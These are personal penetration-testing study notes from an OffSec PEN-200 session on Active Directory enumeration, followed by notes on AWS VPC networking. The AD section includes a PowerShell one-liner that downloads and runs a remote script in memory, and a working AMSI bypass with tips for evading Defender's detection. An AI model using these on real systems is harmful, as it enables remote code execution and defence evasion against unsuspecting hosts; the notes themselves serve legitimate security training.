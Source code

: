 # OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 — Active Directory Reconnaissance

* The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.
* The Windows host name will be returned by the `hostname` command.
* The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it’s domain-joined.
* Use `net users` to enumerate all local users on Windows.
* Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.
* Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you’re logged in with a local or domain account).
* When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.
* Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.
* See all Windows administrators for the local system: `net localgroup administrators`
* By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.
* One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn’t* show domain groups that are members of that group; for this you need to use PowerShell.
* The `Get-DomainUsers | select name, memberof` PowerShell command will get domain users and associated groups.
* The `Get-DomainGroupMember -Identity $GROUP_NAME` PowerShell command will get all domain group members, *including* nested domain groups.
* The `Get-NetLoggedon | select UserName` PowerShell command will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.
* The `Get-NetSession` PowerShell command will show all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.
* A good enumeration tool is `PowerView.ps1`. For example, it includes the `Invoke-UserHunter` command that bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.
* You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).
* Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there’s a lot of bypasses for this — for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.
* AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you’re trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the “Bypass AMSI by manual modification” link).
* Be aware that AMSI bypasses are *per session*, not global!

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellEmpire / PowerTools / PowerView / powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

* VPC was originally created to help *Amazon* migrate their data centers to AWS.
* EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.
* VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don’t overlap and (2) are entirely contained within the VPC network.
* VPCs are *not* VLAN based — there are at most 4096 separate VLAN tags.
* VPCs are identified internally with a 128 bit number (8 hex digits).
* The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn’t *just* provide L2 information — servers receiving packets also verify that those packets are authentic (that the packet’s server/instance/VPC tuple matches an existing system).
* The mapping service also functions as a “virtual gateway”, providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.
* In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*
* There are two types of caches — caches to individual hosts (EC2) instances, and caches to “edges”, which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.
* Edges also function as a 1-to-1 NAT in their role as internet gateways.
* Edge devices are called “Blackfoot”, after the South African Blackfoot Penguin.
* The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.
* Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet — they go out to an edge device and then are routed from there to S3.
* S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon (“Aspen”) policy document structure.
* 

### References

* [AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

<!--

## A Serverless Journey: AWS Lambda Under the Hood

* 

### References

* [AWS re:Invent 2018: A Serverless Journey — AWS Lambda Under the Hood (YouTube)](https://youtu.be/3qln2u1Vr2E)

## Introduction to the AWS CLI

* 

### References

* [AWS re:Invent 2017: Introduction to the AWS CLI (YouTube)](https://youtu.be/QdzV04T_kec)

## HTTP Desync Attacks

* 

### References

* [HTTP Desync Attacks: Smashing into the Cell Next Door (DEF CON 27)](https://www.youtube.com/watch?v=w-eJM2Pc0KI)

## AWS IAM Policies in a Nutshell

* 

### References

* [AWS IAM Policies in a Nutshell](https://start.jcolemorrison.com/aws-iam-policies-in-a-nutshell/)

## AWS IAM Privilege Escalation: Methods and Mitigation

* 

### References

* [AWS IAM Privilege Escalation — Methods and Mitigation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

## Amazon API Gateway

* 

### References

* [Amazon API Gateway: Developer Guide](https://docs.aws.amazon.com/apigateway/latest/developerguide/welcome.html)

## AWS KMS Cryptographic Details

* 

### References

* [AWS KMS Cryptographic Details](https://docs.aws.amazon.com/kms/latest/cryptographic-details/intro.html)

## AWS Well-Architected Framework

* 

### References

* [AWS Well-Architected Framework](https://docs.aws.amazon.com/wellarchitected/latest/framework/welcome.html)

## Signature Version 4 Signing Process

* 

### References

* [Signature Version 4 signing process](https://docs.aws.amazon.com/general/latest/gr/signature-version-4.html)

## AWS Networking Example

* 

### References

* [AWS — Networking Example](https://ardsec.blogspot.com/2018/09/networking-in-aws.html)

## AWS Developer Tools

* 

### References

* [AWS — Developer Tools](https://ardsec.blogspot.com/2018/09/devops-in-aws.html)

## AWS Compute Services

* 

### References

* [AWS — Compute Services](https://ardsec.blogspot.com/2019/05/aws-compute-services.html)

## AWS Container Services

* 

### References

* [AWS — Container Services](https://ardsec.blogspot.com/2019/05/aws-compute-container-services.html)

## AWS Storage Services

* 

### References

* [AWS — Storage Services](https://ardsec.blogspot.com/2019/05/aws-storage-services.html)

## AWS Database Services

* 

### References

* [AWS — Database Services](https://ardsec.blogspot.com/2019/05/aws-database-services.html)

## AWS Migration Services

* 

### References

* [AWS — Migration Services](https://ardsec.blogspot.com/2019/05/aws-migration-service.html)

## AWS Networking Services

* 

### References

* [AWS — Networking Services](https://ardsec.blogspot.com/2019/05/aws-networking-services.html)

## AWS Security, Identity, and Compliance

* 

### References

* [AWS — Security, Identity, and Compliance](https://ardsec.blogspot.com/2019/06/aws-security-identity-and-compliance.html)

-->

<!-- (Walk through Learning Path 2 on the internal wiki.) -->

<!-- Finish up the TryHackMe: Jr. Penetration Tester “Supplements” -->

<!--

## PortSwigger Web Security Academy

(There are 210 total labs. I should try to do them all.)

(Maybe I should just get the Burp Suite Certified Practitioner at this point? See: <https://portswigger.net/web-security/certification>.)

REFERENCES:

* [PortSwigger: Web Security Academy](https://portswigger.net/web-security/learning-path)

### SQL Injection

### Authentication

### Directory Traversal

### Command Injection

### Business Logic Vulnerabilities

### Information Disclosure

### Access Control

### File Upload Vulnerabilities

### Server-Side Request Forgery (SSRF)

### XXE Injection

### Cross-Site Scripting (XSS)

### Cross-Site Request Forgery (CSRF)

### Cross-Origin Resource Sharing (CORS)

### Clickjacking

### DOM-Based Vulnerabilites

### WebSockets

### Insecure Deserialization

### Server-Side Template Injection

### Web Cache Poisoning

### HTTP Host Header Attacks

### HTTP Request Smuggling

### OAuth Authentication

-->

<!-- Resume my normally planned learning path. -->
